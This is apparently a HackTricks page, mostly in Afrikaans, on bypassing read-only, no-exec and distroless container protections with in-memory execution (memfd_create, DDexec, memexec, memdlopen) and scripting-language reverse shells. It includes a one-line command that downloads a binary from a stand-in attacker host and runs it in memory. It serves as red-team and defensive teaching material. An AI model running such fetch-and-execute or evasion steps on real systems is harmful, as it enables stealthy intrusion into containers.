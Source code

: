 # Bypass FS protections: read-only / no-exec / Distroless

{% hint style="success" %}
Leer & oefen AWS Hacking:<img src="../../../.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/arte.png" alt="" data-size="line">\
Leer & oefen GCP Hacking: <img src="../../../.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Ondersteun HackTricks</summary>

* Kyk na die [**subskripsie planne**](https://github.com/sponsors/carlospolop)!
* **Sluit aan by die** 💬 [**Discord groep**](https://discord.gg/hRep4RUj7f) of die [**telegram groep**](https://t.me/peass) of **volg** ons op **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Deel hacking truuks deur PR's in te dien na die** [**HackTricks**](https://github.com/carlospolop/hacktricks) en [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

<figure><img src="../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

As jy belangstel in 'n **hacking loopbaan** en die onhackbare hack - **ons is besig om aan te stel!** (_vloeiende Pools geskryf en gesproke vereis_).

{% embed url="https://www.stmcyber.com/careers" %}

## Videos

In die volgende video's kan jy die tegnieke wat op hierdie bladsy genoem word, meer in diepte verduidelik vind:

* [**DEF CON 31 - Verkenning van Linux Geheue Manipulasie vir Stealth en Ontvlugting**](https://www.youtube.com/watch?v=poHirez8jk4)
* [**Stealth indringings met DDexec-ng & in-geheue dlopen() - HackTricks Track 2023**](https://www.youtube.com/watch?v=VM_gjjiARaU)

## read-only / no-exec scenario

Dit is al hoe meer algemeen om linux masjiene te vind wat gemonteer is met **read-only (ro) lêerstelsel beskerming**, veral in houers. Dit is omdat dit so maklik is om 'n houer met 'n ro lêerstelsel te laat loop deur **`readOnlyRootFilesystem: true`** in die `securitycontext` in te stel:

<pre class="language-yaml"><code class="lang-yaml">apiVersion: v1
kind: Pod
metadata:
name: alpine-pod
spec:
containers:
- name: alpine
image: alpine
securityContext:
<strong>      readOnlyRootFilesystem: true
</strong>    command: ["sh", "-c", "while true; do sleep 1000; done"]
</code></pre>

Egter, selfs al is die lêerstelsel as ro gemonteer, sal **`/dev/shm`** steeds skryfbaar wees, so dit is vals dat ons nie enigiets op die skyf kan skryf nie. Hierdie gids sal egter **gemonteer wees met no-exec beskerming**, so as jy 'n binêre hier aflaai, sal jy **nie in staat wees om dit uit te voer nie**.

{% hint style="warning" %}
Van 'n rooi span perspektief maak dit **moeilik om binêre te aflaai en uit te voer** wat nie reeds in die stelsel is nie (soos agterdeure of enumerators soos `kubectl`).
{% endhint %}

## Easiest bypass: Scripts

Let daarop dat ek binêre genoem het, jy kan **enige skrip uitvoer** solank die interpreter binne die masjien is, soos 'n **shell skrip** as `sh` teenwoordig is of 'n **python** **skrip** as `python` geïnstalleer is.

Egter, dit is nie net genoeg om jou binêre agterdeur of ander binêre gereedskap wat jy mag nodig hê om te loop, uit te voer nie.

## Memory Bypasses

As jy 'n binêre wil uitvoer maar die lêerstelsel dit nie toelaat nie, is die beste manier om dit te doen deur **dit uit geheue uit te voer**, aangesien die **beskermings daar nie van toepassing is nie**.

### FD + exec syscall bypass

As jy 'n paar kragtige skrip enjin in die masjien het, soos **Python**, **Perl**, of **Ruby**, kan jy die binêre aflaai om uit geheue uit te voer, dit in 'n geheue lêer beskrywer (`create_memfd` syscall) stoor, wat nie deur daardie beskermings beskerm gaan word nie en dan 'n **`exec` syscall** aanroep wat die **fd as die lêer om uit te voer** aandui.

Vir hierdie kan jy maklik die projek [**fileless-elf-exec**](https://github.com/nnsee/fileless-elf-exec) gebruik. Jy kan dit 'n binêre gee en dit sal 'n skrip in die aangeduide taal genereer met die **binêre gecomprimeer en b64 geënkodeer** met die instruksies om dit te **decodeer en dekomprimeer** in 'n **fd** wat geskep is deur `create_memfd` syscall aan te roep en 'n oproep na die **exec** syscall om dit te laat loop.

{% hint style="warning" %}
Dit werk nie in ander skrip tale soos PHP of Node nie omdat hulle nie enige d**efault manier het om rou syscalls** van 'n skrip aan te roep nie, so dit is nie moontlik om `create_memfd` aan te roep om die **geheue fd** te skep om die binêre te stoor nie.

Boonop sal die skep van 'n **regte fd** met 'n lêer in `/dev/shm` nie werk nie, aangesien jy nie toegelaat sal word om dit te laat loop nie omdat die **no-exec beskerming** van toepassing sal wees.
{% endhint %}

### DDexec / EverythingExec

[**DDexec / EverythingExec**](https://github.com/arget13/DDexec) is 'n tegniek wat jou toelaat om die **geheue van jou eie proses** te modifiseer deur sy **`/proc/self/mem`** te oorskryf.

Daarom, deur **die samestelling kode** wat deur die proses uitgevoer word, te beheer, kan jy 'n **shellcode** skryf en die proses "mutate" om **enige arbitrêre kode** uit te voer.

{% hint style="success" %}
**DDexec / EverythingExec** sal jou toelaat om jou eie **shellcode** of **enige binêre** van **geheue** te laai en **uit te voer**.
{% endhint %}
```bash
# Basic example
wget -O- https://attacker.com/binary.elf | base64 -w0 | bash ddexec.sh argv0 foo bar
```
For more information about this technique check the Github or:

{% content-ref url="ddexec.md" %}
[ddexec.md](ddexec.md)
{% endcontent-ref %}

### MemExec

[**Memexec**](https://github.com/arget13/memexec) is die natuurlike volgende stap van DDexec. Dit is 'n **DDexec shellcode demonised**, so elke keer wanneer jy 'n **ander binêre** wil **hardloop**, hoef jy nie DDexec weer te herlaai nie, jy kan net memexec shellcode via die DDexec-tegniek hardloop en dan **kommunikeer met hierdie demon om nuwe binêre te stuur om te laai en te hardloop**.

Jy kan 'n voorbeeld vind van hoe om **memexec te gebruik om binêre van 'n PHP reverse shell** uit te voer in [https://github.com/arget13/memexec/blob/main/a.php](https://github.com/arget13/memexec/blob/main/a.php).

### Memdlopen

Met 'n soortgelyke doel as DDexec, laat die [**memdlopen**](https://github.com/arget13/memdlopen) tegniek 'n **gemakliker manier om binêre** in geheue te laai om later uit te voer. Dit kan selfs toelaat om binêre met afhanklikhede te laai.

## Distroless Bypass

### Wat is distroless

Distroless houers bevat slegs die **bare minimum komponente wat nodig is om 'n spesifieke toepassing of diens te laat werk**, soos biblioteke en runtime afhanklikhede, maar sluit groter komponente soos 'n pakketbestuurder, skulp of stelseldienste uit.

Die doel van distroless houers is om die **aanvaloppervlak van houers te verminder deur onnodige komponente te verwyder** en die aantal kwesbaarhede wat uitgebuit kan word, te minimaliseer.

### Reverse Shell

In 'n distroless houer mag jy **nie eers `sh` of `bash`** vind om 'n gewone skulp te kry nie. Jy sal ook nie binêre soos `ls`, `whoami`, `id`... vind nie, alles wat jy gewoonlik in 'n stelsel hardloop.

{% hint style="warning" %}
Daarom, jy **sal nie** in staat wees om 'n **reverse shell** of **te enumerate** die stelsel soos jy gewoonlik doen nie.
{% endhint %}

As die gecompromitteerde houer egter byvoorbeeld 'n flask web draai, dan is python geïnstalleer, en daarom kan jy 'n **Python reverse shell** kry. As dit node draai, kan jy 'n Node rev shell kry, en dieselfde met byna enige **scripting taal**.

{% hint style="success" %}
Met die scripting taal kan jy **die stelsel enumerate** met behulp van die taal se vermoëns.
{% endhint %}

As daar **geen `read-only/no-exec`** beskermings is nie, kan jy jou reverse shell misbruik om **in die lêerstelsel jou binêre te skryf** en **uit te voer**.

{% hint style="success" %}
Echter, in hierdie tipe houers sal hierdie beskermings gewoonlik bestaan, maar jy kan die **vorige geheue-uitvoertegnieke gebruik om dit te omseil**.
{% endhint %}

Jy kan **voorbeelde** vind van hoe om **sommige RCE kwesbaarhede te exploiteer** om scripting tale **reverse shells** te kry en binêre uit geheue uit te voer in [**https://github.com/carlospolop/DistrolessRCE**](https://github.com/carlospolop/DistrolessRCE).

<figure><img src="../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

As jy belangstel in 'n **hacking loopbaan** en die onhackable hack - **ons huur aan!** (_vloeiende Pools geskryf en gesproke vereis_).

{% embed url="https://www.stmcyber.com/careers" %}

{% hint style="success" %}
Leer & oefen AWS Hacking:<img src="../../../.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/arte.png" alt="" data-size="line">\
Leer & oefen GCP Hacking: <img src="../../../.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Kyk na die [**subskripsie planne**](https://github.com/sponsors/carlospolop)!
* **Sluit aan by die** 💬 [**Discord groep**](https://discord.gg/hRep4RUj7f) of die [**telegram groep**](https://t.me/peass) of **volg** ons op **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Deel hacking truuks deur PRs in te dien na die** [**HackTricks**](https://github.com/carlospolop/hacktricks) en [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
